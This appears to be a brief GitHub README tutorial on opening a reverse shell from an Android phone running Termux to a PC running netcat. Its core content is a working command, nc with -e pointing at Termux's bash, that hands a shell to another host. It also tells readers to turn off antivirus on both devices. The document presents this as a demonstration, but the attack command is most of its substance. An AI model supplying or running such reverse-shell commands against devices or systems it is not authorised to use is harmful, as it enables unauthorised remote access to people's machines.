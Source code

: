 =========================================
📱🔒 Termux Reverse Shell Tutorial 2025 🔑
=========================================

### ⚙️ Steps to follow:

1️⃣ **Turn off Antivirus** (on PC and phone)  
2️⃣ **Install required packages in Termux:** `nano`, `which`, `nc`, etc.  
3️⃣ **Install Netcat (NC) on your PC**

🔽 **Download Netcat for Windows:**  
🔗 https://github.com/diegocr/netcat/blob/master/nc.exe

🖥️ **PC Screenshot:**  
![PC Screenshot](https://github.com/user-attachments/assets/0e478801-485a-4bef-80fe-c063411f6493)

📱 **Phone Screenshot:**  
![Phone Screenshot](https://github.com/user-attachments/assets/594827ce-91ca-4867-9c88-a112ea16dfa6)

### 💻 Command used in Termux:

```bash
nc 192.168.100.168 4444 -e /data/data/com.termux/files/usr/bin/bash
```

📝 *Replace the path above with your actual Termux bash path if different.*

---

### 🧠 Note:
> This is the **simplest way** to demonstrate a reverse shell on an Android phone using Termux.

🔁 **Reverse shell obtained:**  
![Reverse shell](https://github.com/user-attachments/assets/fc387a56-0d8c-4b98-9e4d-c87622d45b73)
